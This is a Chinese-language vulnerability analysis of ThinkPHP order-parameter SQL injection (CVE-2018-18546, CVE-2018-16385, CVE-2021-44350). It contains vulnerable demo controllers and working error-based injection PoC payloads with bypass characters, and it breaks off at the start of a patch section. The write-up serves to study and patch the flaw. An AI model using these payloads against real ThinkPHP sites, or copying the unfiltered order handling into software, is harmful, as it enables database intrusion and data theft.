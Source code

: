 #### - 漏洞原理和分析

parseOrder的order查询语句数组类型下没有对$key/$field过滤就直接拼接sql

每次绕过的方式可以查看patch章节

#### -漏洞复现

- demo构造

  - CVE-2018-18546(ThinkPHP3)

  ```php
  public function orderbySql()
  {
    $user = M('user');
    $data = array();
    $data['username'] = array('eq', 'admin');
    $order=I('get.order');
    $m = $user->where($data)->order($order)->find();
  } 
  ```

  - CVE-2018-16385和CVE-2021-44350(ThinkPHP5)

  ```php
  public function orderSql()
  {
    $order = input('get.order');
    $where = [              
      'username' => 'admin'
    ];
    $res = db('user')->where($where)->order($order)->find();
    dump($res);
  }
  ```

- PoC

  - CVE-2018-18546(ThinkPHP3)

  `order[updatexml(1,concat(0x3a,user()),1)]=`

  - CVE-2018-16385(ThinkPHP5)

  `order[id`|updatexml(1,concat(0x3a,version()),1)#]=1`

  - CVE-2021-44350(上一个绕过)

     ^、-、%、/、&、+符号都可以，这里举例第一个^：

  `order[id^updatexml(1,concat(0x3a,version()),1)]=1`

### - Patch

- [Thinkphp 3 patch 1](https://github.com/top-think/thinkphp/commit/3f97fa89843e98780abf14f08b731856417cf88e)：

重写的parseKey方法设置$strict判断是否要安全过滤的标志位。调用该方法开启标志位则进行安全过滤：
